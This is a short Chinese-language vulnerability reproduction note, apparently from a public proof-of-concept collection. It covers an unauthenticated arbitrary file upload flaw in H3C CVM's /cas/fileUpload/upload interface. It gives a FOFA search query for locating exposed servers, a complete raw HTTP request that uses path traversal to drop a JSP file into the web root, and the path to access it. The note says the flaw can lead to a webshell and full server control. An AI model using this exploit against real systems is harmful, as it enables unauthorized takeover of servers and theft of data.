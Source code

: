 ## H3C-CVM-upload接口前台任意文件上传漏洞复现

 H3C CVM /cas/fileUpload/upload接口存在任意文件上传漏洞，未授权的攻击者可以上传任意文件，获取 webshell，控制服务器权限，读取敏感信息等。

## fofa

```
app="H3C-CVM"
```

## poc

```
POST /cas/fileUpload/upload?token=/../../../../../var/lib/tomcat8/webapps/cas/js/lib/buttons/a.jsp&name=123 HTTP/1.1
Host: your-ip
Content-Range: bytes 0-10/20
Referer: http://your-ip/cas/login
Accept-Encoding: gzip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
 
<%out.println("test");%>
```

![图片](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202406040902939.webp)

访问文件路径

```
/cas/js/lib/buttons/a.jsp
```